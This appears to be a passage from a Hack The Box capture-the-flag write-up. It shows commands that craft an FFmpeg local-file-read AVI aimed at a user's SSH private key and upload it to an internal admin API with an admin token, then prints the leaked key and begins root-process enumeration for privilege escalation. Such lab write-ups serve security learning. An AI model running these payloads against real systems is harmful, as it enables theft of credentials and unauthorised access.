 ```
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
user:x:1000:1000:user:/home/user:/bin/bash
```

All these to learn that the user is named "user"...

```shell
python payloads/generate_avi_lfr.py /home/user/.ssh/id_rsa test.avi --start 377
curl -i -s -k -X $'POST' \
    -H $'Host: internal-api.graph.htb' \
    -H $'admintoken: c0b9db4c8e4bbb24d59a3aaffa8c8b83' \
    -H $'Content-Type: multipart/form-data;' \
    -F $'file=@test.avi' \
    $'http://internal-api.graph.htb/admin/video/upload'
```

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACAvdFWzL7vVSn9cH6fgB3Sgtt2OG4XRGYh5ugf8FLAYDAAAAJjebJ3U3myd
1AAAAAtzc2gtZWQyNTUxOQAAACAvdFWzL7vVSn9cH6fgB3Sgtt2OG4XRGYh5ugf8FLAYDA
AAAEDzdpSxHTz6JXGQhbQsRsDbZoJ+8d3FI5MZ1SJ4NGmdYC90VbMvu9VKf1wfp+AHdKC2
3Y4bhdEZiHm6B/wUsBgMAAAADnVzZXJAb3ZlcmdyYXBoAQIDBAUGBw==
-----END OPENSSH PRIVATE KEY-----
```

## Nreport

### Identifying a potential PE vector

There's unique file running as root:

```shell
ps auxf
# \_ /usr/sbin/CRON -f
#     \_ /bin/sh -c sh -c 'socat tcp4-listen:9851,reuseaddr,fork,bind=127.0.0.1 exec:/usr/local/bin/Nreport/nreport,pty,stderr'
#         \_ sh -c socat tcp4-listen:9851,reuseaddr,fork,bind=127.0.0.1 exec:/usr/local/bin/Nreport/nreport,pty,stderr
#             \_ socat tcp4-listen:9851,reuseaddr,fork,bind=127.0.0.1 exec:/usr/local/bin/Nreport/nreport,pty,stderr
pspy
# 2022/06/05 18:27:16 CMD: UID=0    PID=949    | socat tcp4-listen:9851,reuseaddr,fork,bind=127.0.0.1 exec:/usr/local/bin/Nreport/nreport,pty,stderr
# 2022/06/05 18:27:16 CMD: UID=0    PID=948    | sh -c socat tcp4-listen:9851,reuseaddr,fork,bind=127.0.0.1 exec:/usr/local/bin/Nreport/nreport,pty,stderr
# 2022/06/05 18:27:16 CMD: UID=0    PID=947    | /bin/sh -c sh -c 'socat tcp4-listen:9851,reuseaddr,fork,bind=127.0.0.1 exec:/usr/local/bin/Nreport/nreport,pty,stderr'
# 2022/06/05 18:27:16 CMD: UID=0    PID=946    | /usr/sbin/atd -f
# 2022/06/05 18:27:16 CMD: UID=0    PID=940    | /usr/sbin/CRON -f
file /usr/local/bin/Nreport/nreport
# /usr/local/bin/Nreport/nreport: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /usr/local/bin/Nreport/libc/ld-2.25.so, for GNU/Linux 3.2.0, BuildID[sha1]=fab56bbb7a23ada8a8f5943b527d16f3cdcb09e5, not stripped
```


[author-profile]: https://app.hackthebox.com/users/172213
[disabled-dashboard]: images/disabled-dashboard.png
[hackerone-tiktok]: https://hackerone.com/reports/1062888
[internal-registration]: images/interal-registration.png*
[local-storage]: images/local-storage.png
[pat-ffmpeg]: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/CVE%20Ffmpeg%20HLS
[registration-otp]: images/registration-otp.png
[share-localstorage]: https://stackoverflow.com/questions/4026479/use-localstorage-across-subdomains
[upload-form]: images/upload-form.png
[xss-blogpost]: https://xclow3n.github.io/bugBounty/myFirstBounty.html